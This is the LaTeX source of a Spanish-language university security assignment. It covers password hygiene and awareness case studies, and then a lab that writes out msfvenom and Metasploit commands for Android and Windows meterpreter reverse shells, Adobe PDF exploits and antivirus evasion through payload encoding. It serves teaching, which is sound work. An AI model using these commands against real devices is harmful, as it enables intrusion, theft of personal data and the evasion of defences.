%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% En 'inclues.tex' se encuentran la importación de paquetes necesarios
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% University Assignment Title Page 
% LaTeX Template
% Version 1.0 (27/12/12)
%
% This template has been downloaded from:
% http://www.LaTeXTemplates.com
%
% Original author:
% WikiBooks (http://en.wikibooks.org/wiki/LaTeX/Title_Creation)
%
% License: CC BY-NC-SA 3.0 (http://creativecommons.org/licenses/by-nc-sa/3.0/)
% 
% Instructions for using this template:
% This title page is capable of being compiled as is. This is not useful for 
% including it in another document. To do this, you have two options: 
%
% 1) Copy/paste everything between \begin{document} and \end{document} 
% starting at \begin{titlepage} and paste this into another LaTeX file where you 
% want your title page.
% OR
% 2) Remove everything outside the \begin{titlepage} and \end{titlepage} and 
% move this file to the same directory as the LaTeX file you wish to add it to. 
% Then add \input{./title_page_1.tex} to your LaTeX file where you want your
% title page.
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%\title{Title page with logo}
%----------------------------------------------------------------------------------------
%	PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------
\PassOptionsToPackage{warn}{textcomp}
\documentclass[14pt]{extarticle}
%Paquetes para idioma español y codifcación UTF8
\usepackage[spanish]{babel}
\usepackage[utf8]{inputenc}
\usepackage{csquotes}

%%% BIBLATEX
\usepackage{biblatex}
%%% BIBLIOGRAPHY
\addbibresource{references.bib}

%fuente 'fourier'
\usepackage{fourier}
%paquete para URLs
\usepackage{url}
\usepackage[hidelinks]{hyperref}
%paquete para ubicar las imágenes
\usepackage{float}
%paquete para imágenes y en dónde las tiene que buscar
\usepackage{graphicx}
\graphicspath{{images/}}
%paquete para epígrafes
\usepackage{subcaption}
%paquete para definir los márgenes de la hoja
\usepackage[left=1.5cm,right=1.5cm,top=3cm,bottom=3cm]{geometry}
%paquete para poner todos y comentarios
\usepackage[colorinlistoftodos]{todonotes}
%paquete para trabajar con código
\usepackage{listings}
%paquete para trabajar con colores y definir propios
\usepackage{color}

%paquete para el checkmark y la cruz
\usepackage{pifont}
%paquete para el signo de copyright
\usepackage{textcomp}

%paquete para que los \texttt{} no rompan el margen de la página
\usepackage[htt]{hyphenat}

\usepackage{enumerate}
%paquete para armar layouts multicolumna
\usepackage{multicol}


%Cabeceras
\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhead[L]{Administración de Redes y Seguridad, 2018}
\fancyhead[C]{}
\fancyhead[R]{UNPSJB}

\fancyfoot[R]{Luciano Serruya Aloisi}

%Comando para poner doble comillas más fácil
\newcommand{\dq}[1]{``#1''}
\newcommand{\cmark}{\ding{51}}
\newcommand{\xmark}{\ding{55}}

\definecolor{comment-green}{rgb}{0,0.5,0}
\definecolor{bg-light-gray}{HTML}{E9E9E9}
\definecolor{bg}{HTML}{D0B698}

\lstdefinestyle{bashstyle}{
    language=Bash,
    backgroundcolor=\color{bg},
    basicstyle=\ttfamily,
  	keywordstyle=\bfseries\color{white},
    stringstyle=\color{blue},
    commentstyle=\color{comment-green}\itshape,
    numberstyle=\color{gray},
    identifierstyle=\color{black},
    rulecolor=\color{gray},
    showstringspaces=false,
    escapeinside={\%*}{*)},
    morekeywords={},
    otherkeywords={},
    breaklines=true,
    frame=trbl, 
    framexleftmargin=25pt,
    numbers=left,
    xleftmargin=\parindent,
    frameround=tttt,
    captionpos=b,
    % re tirado de los pelos, pero es lo que hay
    % sacado de:
    % https://tex.stackexchange.com/questions/24528/having-problems-with-listings-and-utf-8-can-it-be-fixed
    inputencoding=utf8,
    extendedchars=true,
    literate={á}{{\'a}}1 {é}{{\'e}}1 {í}{{\'i}}1 {ó}{{\'o}}1 {Ó}{{\'O}}1 {ú}{{\'u}}1,
}



\begin{document}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% En 'titlepage.tex' se encuentra la página de título
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{titlepage}

    \newcommand{\HRule}{\rule{\linewidth}{0.5mm}} % Defines a new command for the horizontal lines, change thickness here

    \center % Center everything on the page
     
    %----------------------------------------------------------------------------------------
    %	HEADING SECTIONS
    %----------------------------------------------------------------------------------------

    \textsc{\LARGE UNPSJB}\\[1cm] % Name of your university/college
    \textsc{\Large Licenciatura en Sistemas OPGCPI}\\[0.5cm] % Major heading such as course name
    \textsc{\large Administración de Redes y Seguridad}\\[0.5cm] % Minor heading such as course title

    %----------------------------------------------------------------------------------------
    %	TITLE SECTION
    %----------------------------------------------------------------------------------------

    \HRule \\[0.4cm]
    {\huge \bfseries Trabajo Práctico 1}\\[0.4cm] % Title of your document
    {\large \bfseries Concientización}\\[0.4cm] % Title of your document
    \HRule \\[1.5cm]
     
    %----------------------------------------------------------------------------------------
    %	AUTHOR SECTION
    %----------------------------------------------------------------------------------------


    \begin{minipage}[l]{0.5\textwidth}
        \begin{flushleft}
            \textbf{\textsf{Cátedra}}\\
            \large Lic. Bruno Damián Zappellini\\ 
            \linespread{4}
            \end{flushleft}
    \end{minipage}
    \begin{minipage}[l]{0.4\textwidth}
        \begin{flushright}
            \textbf{\textsf{Integrantes:}}\\
            \linespread{1}
            \large Luciano Serruya Aloisi\\
        \end{flushright}
    \end{minipage}\\[1.5cm]

    % If you don't want a supervisor, uncomment the two lines below and remove the section above
    %\Large \emph{Author:}\\
    %John \textsc{Smith}\\[3cm] % Your name

    %----------------------------------------------------------------------------------------
    %	DATE SECTION
    %----------------------------------------------------------------------------------------

    {\large \today}\\[1cm] % Date, change the \today to a set date if you want to be precise

    %----------------------------------------------------------------------------------------
    %	LOGO SECTION
    %----------------------------------------------------------------------------------------

    
\includegraphics[scale=1]{logoUnpsjb.png}\\[0.5cm] % Include a department/university logo - this will require the graphicx package
     
    %----------------------------------------------------------------------------------------

    % \vfill % Fill the rest of the page with whitespace

\end{titlepage}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% INDICE
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\clearpage
\tableofcontents
\clearpage 

\lstset{style=bashstyle}


\section{Caso de estudio}

\subsection{Situaciones de inseguridad identificadas}

Lo primero que se puede asumir leyendo el relato de \emph{Un día en la oficina de Carlitos} es que el personaje no utiliza una contraseña muy segura para su computadora del trabajo (debido principalmente al largo de la misma). Acto seguido, el personaje se retira de su oficina dejando su computadora con una sesión iniciada, permitiendo que cualquiera que entre a su oficina pueda usarla como si fuese él (posible caso de \emph{usurpación de identidad}).

Una vez que regresa a la oficina, se queja de toda la publicidad que le llega al mail (claro ejemplo de \emph{SPAM}, y hasta se podría llegar a dar que entre alguno de esos mensajes haya alguno malintencionado). Seguidamente abre un mensaje \emph{enviado con la cuenta} de José, su cuñado. Este mensaje contiene como adjunto un archivo ejecutable de Windows, diciendo que es una foto. Con respecto a esta situación, se pueden destacar varias cuestiones:

\begin{itemize}
    \item El mensaje puede no haber sido enviado por el dueño de la cuenta. En caso de que algún dispositivo en el cual José tenga su cuenta de correo electrónico vinculada y haya sufrido el ataque de un \emph{malware}, dicho mensaje puede no haber sido enviado por él, sino por el programa malicioso, haciendo que el mismo mensaje sea malintencionado.
    \item El mensaje se puede tratar de un \emph{HOAX}, también. Con la excusa de que incluye una imagen cómica, los distintos remitente van enviando el mensaje a sus contactos y así manteniendo la cadena. 
    \item El hecho de que una imagen tenga la extensión de un archivo ejecutable levanta muchas sospechas, induciendo a pensar que puede ser en sí un programa malicioso.
\end{itemize}

Después de la conversación con el Dr. Roberto Secchi narrada en el anexo, el personaje intenta desesperadamente conseguir el documento solicitado. Para ello prueba con varias contraseñas para así iniciar sesión en la computadora de una compañera de oficina (la cual no estaba presente ese día). Eso se trata de una grave violación a la privacidad de su compañera. Al no tener éxito, repite la situación con la computadora de otro compañero, logrando entrar debido a una contraseña muy débil y abiertamente conocida por sus pares.

Una vez que consiguió ingresar en la computadora, recupera el documento necesario y se lo envía al Dr. Secchi, saliendo así de un apuro.

\subsection{Fallas evidenciadas}

~\\
\emph{8:20} 
\begin{enumerate}[a)]
    \item Elección de contraseña insegura.
    \item Utilización de correo electrónico inseguro.
    \item Ingeniería Social
    \item a y c.
\end{enumerate}

\textbf{Respuesta:} d). 

~\\
\emph{9:47} 
\begin{enumerate}[a)]
    \item SPAM
    \item Adjunto de archivos ejecutables (photo.exe)
    \item HOAX
    \item a y b.
\end{enumerate}

\textbf{Respuesta:} d). 

~\\
\emph{9:57} 
\begin{enumerate}[a)]
    \item Elección de contraseña segura.
    \item Ingeniería Social.
    \item HOAX.
    \item a, b y c.
\end{enumerate}

\textbf{Respuesta:} a). 

~\\
\emph{10:00} 
\begin{enumerate}[a)]
    \item Usurpación de Identidad.
    \item Ingeniería Social.
    \item Elección de contraseña insegura.
    \item a, b y c
\end{enumerate}

\textbf{Respuesta:} d). 

\subsection{Medidas de seguridad}

Con respecto a una de las primeras situaciones identificadas (el personaje del relato deja su computadora con la sesión iniciada y se retira de la oficina), una posible solución sería que todas las computadoras de la oficina se bloqueen (cierren la sesión, requiriendo de nuevo la contraseña) dentro de un breve período de inactividad.

Para las situaciones en las que el personaje utilizó las computadoras de los compañeros, una solución podría ser establecer una política de seguridad la cual dictamine un \emph{formato} a cumplir para las contraseñas (para generar contraseñas seguras), y que dichas contraseñas se vayan cambiando periodicamente. 

\section{Análisis del video \dq{Escritorio limpio}}

\begin{itemize}
    \item No se toman medidas de seguridad física para almacenar documentos importantes. El \emph{backup} del proyecto en el cual estaba trabajando el personaje es dejado encima del escritorio, más allá de haberle dicho a su superior que lo iba a guardar en una caja fuerte. Sobre el final del video se puede ver cómo la cámara de seguridad capturó a varias personas entrando a la oficina y aprovechándose de estos descuidos.
    \item Uso de contraseñas débiles, y mal manejo de las mismas. El personaje deja anotada su contraseña en su monitor, permitiendo que cualquier persona que entre a su oficina la conozca. Cabe destacar también que el personal de administración de redes y de seguridad de la oficina tiene acceso a su contraseña.
    \item El personaje es víctima de \emph{Trashing}. Al final del video se ve cómo el personal de limpieza revisa en su basura y retira documentos que no fueron correctamente desechados (destruidos). 
    \item Pérdida de copias de resguardo. El \emph{backup} del proyecto es retirado de la oficina inadvertidamente. 
\end{itemize}

\section{Claves}

El principal problema de proteger información con claves débiles es lo fácil que se pueden conseguir esas claves. Ya sea probando algunas combinaciones habituales (como \dq{12345}, \dq{admin}, la fecha de nacimiento de la persona, entre otros) o con herramientas que automatizan ese trabajo (ya sea con diccionarios o mediante fuerza bruta).

\subsection{Análisis de contraseñas}

Utilizando el sitio \url{https://www.segu-info.com.ar/proteccion/fortaleza_clave.htm} se obtuvieron los siguientes resultados:

\begin{itemize}
    \item La constraseña \texttt{admin} tiene una puntuación de 7\% 
    \item La constraseña \texttt{ARyS la mejor materia!} (utilizando espacios) logra una puntuación de 100\% 
\end{itemize}

\subsection{Vulnerabilidad en Internet}

\emph{Ud como usuario de Internet, ¿cree que es vulnerable? En caso afirmativo, especifique por qué, y qué cree que podría hacer para minimizar los riesgos.} 
~\\

Uno siempre puede ser vulnerable mientras navega en Internet, principalmente cuando visita sitios cuyo \emph{medio de comunicación} no es seguro (sitios que usan HTTP en vez de HTTPS). De esta forma se está expuesto a que la comunicación con el sitio sea interceptada y pueda verse perjudicado. Para palear esta situación, los navegadores actuales indican cuándo se está visitando un sitio \emph{no seguro}.  

\subsection{Medidas de seguridad personales}

\emph{¿Qué procedimientos adopta en pos de la seguridad/privacidad?} 
~\\

Principalmente el uso de contraseñas seguras (compuestas tanto por caracteres mayúsculas y minúsculas, como por número y símbolos), también encriptación para las particiones del disco duro de la PC personal (partición encriptada con \emph{LUKS}).

\subsection{Acciones para la concientización}

Una acción de concientización interesante podría ser la demostración de qué tan fácil puede llegar a ser descubrir una contraseña habitual, mediante el uso de diccionarios y/o fuerza bruta.

\section{Seguridad física}

Para evidenciar la realización de los laboratorios sobre seguridad física, tanto el de obtener los usuarios y contraseñas de un sistema Linux como de un Windows, se anexan los archivos \dq{cracked\_shadow.txt} y \dq{cracked\_windows.csv} dentro del directorio \dq{assets}.

\section{Ataques}

\subsection{Android}

\emph{Explique el procedimiento para la ejecución del componente meterpreter en un dispositivo/computadora remoto/a a través de msfvenom} 

Para poder ejecutar una aplicación con un \emph{shell reverso \footnote{Se establece una conexión entre dos computadoras, la que inicia la conexión dirige una terminal interactiva hacía el destino \autocite{ReverseShell}}} en un dispositivo Android, primero se debe crear un archivo \emph{.apk} (archivo instalable en un Android) que contenga el código necesario para establecer la conexión con otra computadora. Para ello se usa el programa \texttt{msfvenom} de la siguiente manera:

\begin{lstlisting}
    msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PUERTO_DE_ESCUCHA> R> ~/app.apk
\end{lstlisting}

\begin{itemize}
    \item \texttt{-p android/meterpreter/reverse\_tcp}: con este parámetro le indicamos a \texttt{msfvenom} que el \emph{payload} (código adicional) que queremos inyectar en la aplicación \emph{app.apk} realice una conexión TCP con la IP <IP> al puerto <PUERTO\_DE\_ESCUCHA>  
    \item \texttt{LHOST}: dirección IP a la cual conectarse
    \item \texttt{LPORT}: puerto al cual establecer la conexión 
\end{itemize}

Una vez instalada la aplicación en el dispositivo Android al cual se desea atacar, se debe ejecutar la consola de \emph{Metasploit} (con el comando \texttt{msfconsole}), e ingresar lo siguiente:

\begin{itemize}
    \item \texttt{use exploit/multi/handler} 
    \item \texttt{set payload android/meterpreter/reverse\_tcp} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{meterpreter-android}
    \caption{Conexión desde \texttt{msfconsole} a un dispositivo Android}
\end{figure}

Dentro del directorio \dq{assets} se incluyen los archivos correspondientes a una recuperación del registro de llamadas, de mensajes de texto enviados y recibidos, y de la lista de contactos del dispositivo Android.

\subsection{Windows}

\emph{Basado en ejemplo aterior, como realizaría el mismo ataque contra un equipo Microsoft Windows. Puede utilizar un archivo PDF como vector de ataque} 

Dentro de la suite de programas de Adobe, uno de los más usado es su lector de PDFs, \textbf{Adobe Reader}. Este programa posee varias vulnerabilidades de las cuales uno se puede aprovechar para inyectar código malicioso en un archivo PDF. De las vulnerabilidades disponibles, a continuación se mostrará cómo explotar dos de ellas disponibles en Metasploit.

La primera de ellas, se trata de un \emph{desbordamiento del buffer} (\emph{buffer overflow}) de la pila de funciones de JavaScript con la función \texttt{util.printf()} \autocite{JSStackBufferOverflow}. Para inyectar el código en el archivo PDF se debe ejecutar los siguientes comandos en la consola de \texttt{msfconsole}:

\begin{itemize}
    \item \texttt{use exploit/windows/fileformat/adobe\_utilprintf}
    \item \texttt{set FILENAME <NOMBRE\_DEL\_ARCHIVO>.pdf}
    \item \texttt{set payload windows/meterpreter/reverse\_tcp}
    \item \texttt{set LHOST <IP>}
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

Como se puede ver en los comandos, se está agregando un \emph{payload} que establece una conexión TCP con una computadora que estará esperando tal conexión. De esta forma, al igual que con el ataque a un dispositivo Android, establecemos una \emph{shell reversa}. 

Una vez creado el archivo PDF y abierto en la máquina que será la víctima, se deben realizar los mismos pasos que en el ataque a Android para conectarse con el dispositivo, pero cambiando el \emph{payload} 

\begin{itemize}
    \item \texttt{use exploit/multi/handler} 
    \item \texttt{set payload windows/meterpreter/reverse\_tcp} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

La segunda vulnerabilidad a experimentar se puede hallar en Metasploit como \dq{Adobe PDF Embedded} \autocite{AdobePDFEmbedded}. Los pasos para inyectarla en un archivo PDF muy similares a los realizados con la anterior.

Primero, se debe armar el PDF. Para ello, se necesita un archivo PDF de entrada, al cual inyectarle el \emph{payload}. Desde la consola de \texttt{msfconsole}, ejecutar los siguientes comandos:
\begin{itemize}
    \item \texttt{use exploit/windows/fileformat/adobe\_pdf\_embedded\_exe} 
    \item \texttt{set payload windows/meterpreter/reverse\_tcp} 
    \item \texttt{set INFILENAME <ARCHIVO\_ENTRADA.pdf} 
    \item \texttt{set FILENAME <ARCHIVO\_SALIDA.pdf} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

Creado el archivo, es cuestión de abrir en la máquina objetivo y configurar una máquina a la cual se conectará la primera (el procedimiento es el mismo a la vulnerabilidad anterior).

\subsection{\emph{Meterpreter} en Windows y en Android}

\emph{¿Qué capacidades tiene Meterpreter en Windows que no están presentes en Android?} 

Desde la consola de \emph{meterpreter} se puede ejecutar el comando \texttt{help} ó \texttt{?} para listar todos los comandos disponibles a ejecutar en el dispositivo objetivo - en el directorio \dq{assets} se incluyen dos archivos (\dq{meterpreter\_android.txt} y \dq{meterpreter\_windows.txt}) con los distintos comandos disponibles para cada plataforma).

La principal diferencia que se puede ver examinando rápidamente la salida del comando de ayuda en cada plataforma es la posibilidad de gestionar procesos que se puede hacer en Windows pero no en Android; se pueden crear, eliminar (hasta se puede eliminar el proceso que tiene establecida la conexión). También permite ejecutar varios comandos a nivel de sistema, como puede ser recuperar variables de ambiente, obtener PIDs, reiniciar o apagar la computadora. Con respecto a la administración de redes, en la plataforma Windows se pueden examinar las conexiones abiertas con el comando \texttt{netstat}, el cual no está disponible para Android.  También se puede poner a correr un \emph{keylogger} \footnote{programas que realizan un seguimiento y registran cada tecla que se pulsa en una computadora \autocite{KasperskyKeylogger}}, para obtener las secuencias de teclas pulsadas por el usuario. 

Por último, se puede tomar una captura de pantalla del escritorio activo o cambiar parámetros del mismo.

\subsection{Analizando los archivos con \emph{VirusTotal}}

A continuación se indica el comando que se utilizó para generar el archivo con el payload y la salida que se obtuvo al analizarlo con \href{http://www.virustotal.com/#/home/upload}{VirusTotal} 

\begin{lstlisting}[title={Aplicación para Android}]
    msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.5 LPORT=12345 -o ~/app.apk
\end{lstlisting}

\begin{figure}[h]
    \centering
    
\includegraphics[width=\linewidth]{virustotal_android}
    \caption{Salida de VirusTotal para la aplicación de Android}
\end{figure}

\begin{lstlisting}[title={Aplicación para Windows}]
    msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=192.168.0.5 LPORT=12345 -o ~/app.exe
\end{lstlisting}

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{virustotal_windows}
    \caption{Salida de VirusTotal para la aplicación de Windows}
\end{figure}

\subsection{Evadir antivirus}

\emph{¿Qué herramienta(s) provee metasploit para evadir la detección que se realizó en el punto 5?} 

Una herramienta que brinda el \emph{framework} viene incluida (en las últimas versiones de \emph{metasploit}) en la aplicación \texttt{msfvenom} - esta es la posibilidad de \textbf{codificar la firma del virus}.

Una de las técnicas que implementan los antivirus para reconocer archivos maliciosos es el reconocimiento de sus "firmas". Mayromente, verifican las primeras líneas del archivo en busca de algún patrón ya conocido de un cierto tipo de virus. Así que una forma sencilla de sortear los antivirus consiste en cambiar la codificación del archivo (sin cambiar su funcionalidad) para que no pase desapercibido \autocite{Signatures}.

Para replicar el virus de Windows anterior pero con la firma codificada, se debe ejectuar el siguiente comando:

\begin{lstlisting}
    msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -b "\x00" -i 50 --platform windows -a x86 -f exe LHOST=<IP> LPORT=<PUERT\_DE\_ESCUCHA> -o indetectable.exe
\end{lstlisting}

En este caso, la codificación utilizada es la \dq{Shikata Ga Nai} (que se puede traducir al español como \dq{No se puede hacer nada al respecto} \autocite{Signatures}) - transforma la firma del \emph{payload} haciendo operaciones XOR acumulativas sobre la misma. No es perfecta, pero es eficiente y genera varias firmas rápidamente que luego pueden ser desencriptadas al momento de ejecutarse en la máquina objetivo. En el ejemplo de ejecución, la operación XOR se realiza 50 veces.

Probando el nuevo archivo en VirusTotal, lamentablemente no se logró ninguna mejora, la cantidad de antivirus que reconocen el archivo como una amenaza sigue siendo la misma.

Otra herramienta disponible para encriptar el \emph{payload} del virus y así ser menos reconocible, es \href{https://sourceforge.net/projects/crisp-shellcode-generator/files/}{VENOM} \autocite{VENOM}. Esta herramienta se vale del programa \texttt{msfvenom} para generar \emph{shellcode} en distintos formatos (como puede ser en C, Python, Ruby), y luego inyectarlo en una función de alguno de los lenguajes de programación (en un archivo \dq{plantilla})  





%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% FIN DOCUMENTO, AHORA REFERENCIAS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\clearpage
\printbibliography

\end{document}
